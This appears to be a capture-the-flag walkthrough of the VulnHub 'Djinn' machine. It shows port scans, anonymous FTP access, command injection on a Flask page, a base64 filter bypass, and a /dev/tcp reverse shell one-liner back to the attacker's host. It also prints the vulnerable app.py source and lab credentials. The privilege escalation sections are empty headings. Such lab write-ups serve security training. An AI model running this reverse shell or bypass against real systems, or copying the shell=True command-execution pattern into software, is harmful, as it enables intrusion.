



Return to Main Page
Djinn Walkthrough
Summary
Port Scanning
Running a port scan against the full port range to determine which ones are open.
# Nmap 7.91 scan initiated Fri Sep 24 15:36:37 2021 as: nmap -p- -oN ping_tcp 10.0.0.20
Nmap scan report for 10.0.0.20
Host is up (0.0012s latency).
Not shown: 65531 closed ports
PORT STATE SERVICE
21/tcp open ftp
22/tcp filtered ssh
1337/tcp open waste
7331/tcp open swx
MAC Address: 00:0C:29:2C:20:02 (VMware)
# Nmap done at Fri Sep 24 15:36:45 2021 -- 1 IP address (1 host up) scanned in 8.00 seconds
Running an nmap scan using the flags -sV and -sC to enumerate service versions and other information.
# Nmap 7.91 scan initiated Fri Sep 24 15:37:12 2021 as: nmap -p21,1337,7331 -sV -sC -oN script_tcp 10.0.0.20
Nmap scan report for 10.0.0.20
Host is up (0.00019s latency).
PORT STATE SERVICE VERSION
21/tcp open ftp vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw-r--r-- 1 0 0 11 Oct 20 2019 creds.txt
| -rw-r--r-- 1 0 0 128 Oct 21 2019 game.txt
|_-rw-r--r-- 1 0 0 113 Oct 21 2019 message.txt
| ftp-syst:
| STAT:
| FTP server status:
| Connected to ::ffff:10.0.0.1
| Logged in as ftp
| TYPE: ASCII
| No session bandwidth limit
| Session timeout in seconds is 300
| Control connection is plain text
| Data connections will be plain text
| At session startup, client count was 4
| vsFTPd 3.0.3 - secure, fast, stable
|_End of status
1337/tcp open waste?
| fingerprint-strings:
| NULL:
| ____ _____ _
| ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___
| \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
| ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
| Let's see how good you are with simple maths
| Answer my questions 1000 times and I'll give you your gift.
| '/', 4)
| RPCCheck:
| ____ _____ _
| ___| __ _ _ __ ___ ___ |_ _(_)_ __ ___ ___
| \x20/ _ \x20 | | | | '_ ` _ \x20/ _ \n| |_| | (_| | | | | | | __/ | | | | | | | | | __/
| ____|__,_|_| |_| |_|___| |_| |_|_| |_| |_|___|
| Let's see how good you are with simple maths
| Answer my questions 1000 times and I'll give you your gift.
|_ '*', 2)
7331/tcp open http Werkzeug httpd 0.16.0 (Python 2.7.15+)
|_http-server-header: Werkzeug/0.16.0 Python/2.7.15+
|_http-title: Lost in space
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port1337-TCP:V=7.91%I=7%D=9/24%Time=614E28F5%P=x86_64-pc-linux-gnu%r(NU
SF:LL,1BC,"\x20\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\
SF:x20_\x20_\x20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20
SF:__\x20___\x20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\
SF:x20`\x20_\x20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x
SF:20`\x20_\x20\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\
SF:x20\|\x20\|\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\
SF:|\x20\|\x20\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\
SF:x20\|_\|\\___\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:n\nLet's\x20see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths
SF:\nAnswer\x20my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20
SF:you\x20your\x20gift\.\n\(9,\x20'/',\x204\)\n>\x20")%r(RPCCheck,1BC,"\x2
SF:0\x20____\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20_____\x20_\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20/\x20___\|\x20__\x20_\x20_\x
SF:20__\x20___\x20\x20\x20___\x20\x20\|_\x20\x20\x20_\(_\)_\x20__\x20___\x
SF:20\x20\x20___\x20\n\|\x20\|\x20\x20_\x20/\x20_`\x20\|\x20'_\x20`\x20_\x
SF:20\\\x20/\x20_\x20\\\x20\x20\x20\|\x20\|\x20\|\x20\|\x20'_\x20`\x20_\x2
SF:0\\\x20/\x20_\x20\\\n\|\x20\|_\|\x20\|\x20\(_\|\x20\|\x20\|\x20\|\x20\|
SF:\x20\|\x20\|\x20\x20__/\x20\x20\x20\|\x20\|\x20\|\x20\|\x20\|\x20\|\x20
SF:\|\x20\|\x20\|\x20\x20__/\n\x20\\____\|\\__,_\|_\|\x20\|_\|\x20\|_\|\\_
SF:__\|\x20\x20\x20\|_\|\x20\|_\|_\|\x20\|_\|\x20\|_\|\\___\|\n\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\nLet's\x2
SF:0see\x20how\x20good\x20you\x20are\x20with\x20simple\x20maths\nAnswer\x2
SF:0my\x20questions\x201000\x20times\x20and\x20I'll\x20give\x20you\x20your
SF:\x20gift\.\n\(9,\x20'\*',\x202\)\n>\x20");
MAC Address: 00:0C:29:2C:20:02 (VMware)
Service Info: OS: Unix
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Sep 24 15:38:47 2021 -- 1 IP address (1 host up) scanned in 95.17 seconds
Information Gathering
I begin with logging into the FTP server. The creds anonymous:anonymous let me in.
┌──(kali㉿kali)-[~/…/VulnHub/Djinn/exfiltrated/ftp]
└─$ ftp 10.0.0.20
Connected to 10.0.0.20.
220 (vsFTPd 3.0.3)
Name (10.0.0.20:kali): anonymous
530 Please login with USER and PASS.
530 Please login with USER and PASS.
SSL not available
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
-rw-r--r-- 1 0 0 11 Oct 20 2019 creds.txt
-rw-r--r-- 1 0 0 128 Oct 21 2019 game.txt
-rw-r--r-- 1 0 0 113 Oct 21 2019 message.txt
226 Directory send OK.
ftp> mget *
mget creds.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for creds.txt (11 bytes).
226 Transfer complete.
11 bytes received in 0.00 secs (195.3125 kB/s)
mget game.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for game.txt (128 bytes).
226 Transfer complete.
128 bytes received in 0.00 secs (2.7127 MB/s)
mget message.txt? y
200 PORT command successful. Consider using PASV.
150 Opening BINARY mode data connection for message.txt (113 bytes).
226 Transfer complete.
113 bytes received in 0.00 secs (2.4492 MB/s)
ftp> exit
221 Goodbye.
According to the files there is a game of some sort for us to play on port 1337. There are also credentials in creds.txt that I am going to take note of, nitu:81299
┌──(kali㉿kali)-[~/…/VulnHub/Djinn/exfiltrated/ftp]
└─$ cat creds.txt 1 ⨯
nitu:81299
┌──(kali㉿kali)-[~/…/VulnHub/Djinn/exfiltrated/ftp]
└─$ cat game.txt
oh and I forgot to tell you I've setup a game for you on port 1337. See if you can reach to the
final level and get the prize.
┌──(kali㉿kali)-[~/…/VulnHub/Djinn/exfiltrated/ftp]
└─$ cat message.txt
@nitish81299 I am going on holidays for few days, please take care of all the work.
And don't mess up anything.
Next I run gobuster against the web server on port 7331.
┌──(kali㉿kali)-[~/Documents/VulnHub/Djinn/WebEnum]
└─$ gobuster dir -u http://10.0.0.20:7331/ -w /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url: http://10.0.0.20:7331/
[+] Method: GET
[+] Threads: 10
[+] Wordlist: /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes: 404
[+] User Agent: gobuster/3.1.0
[+] Timeout: 10s
===============================================================
2021/09/24 20:17:29 Starting gobuster in directory enumeration mode
===============================================================
/wish (Status: 200) [Size: 385]
/genie (Status: 200) [Size: 1676]
===============================================================
2021/09/24 20:18:01 Finished
===============================================================
This reveals two directories. The /wish directory leads us to a reverse shell. On this page we are able to submit commands. When we submit "whoami" we see www-data returns in the URL that we get redirected to. So it appears we are getting command execution. I did this in Burp as shown below.

However, when we submit other commands such as a reverse shell, "bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'", it returns with "Wrong+choice+of+words". It looks like user input is being filtered so I use base64 encoding to get around this. First I encoded the command with base64 and then I piped the base64 encoded command into bash to be executed.
- Here I demonstrate/test

Foothold
Getting shell on Djinn using the base64 encoded command

After getting shell I take a look at the file app.py
www-data@djinn:/opt$ cat 80/app.py
import subprocess
from flask import Flask, redirect, render_template, request, url_for
app = Flask(__name__)
app.secret_key = "key"
CREDS = "/home/nitish/.dev/creds.txt"
RCE = ["/", ".", "?", "*", "^", "$", "eval", ";"]
def validate(cmd):
if CREDS in cmd and "cat" not in cmd:
return True
try:
for i in RCE:
for j in cmd:
if i == j:
return False
return True
except Exception:
return False
@app.route("/", methods=["GET"])
def index():
return render_template("main.html")
@app.route("/wish", methods=['POST', "GET"])
def wish():
execute = request.form.get("cmd")
if execute:
if validate(execute):
output = subprocess.Popen(execute, shell=True,
stdout=subprocess.PIPE).stdout.read()
else:
output = "Wrong choice of words"
return redirect(url_for("genie", name=output))
else:
return render_template('wish.html')
@app.route('/genie', methods=['GET', 'POST'])
def genie():
if 'name' in request.args:
page = request.args.get('name')
else:
page = "It's not that hard"
return render_template('genie.html', file=page)
if __name__ == "__main__":
app.run(host='0.0.0.0', debug=True)
I highlighed the above code where the code specifies a file in the home directory of nitish named "creds.txt". I take a look at this file and find credentials for the user nitish.
www-data@djinn:/opt$ cat /home/nitish/.dev/creds.txt
nitish:p4ssw0rdStr3r0n9
Privesc - nitish
I use the "su" command to switch to this user.
www-data@djinn:/opt$ su nitish
Password:
nitish@djinn:/opt$
Privesc - sam
Privesc - Root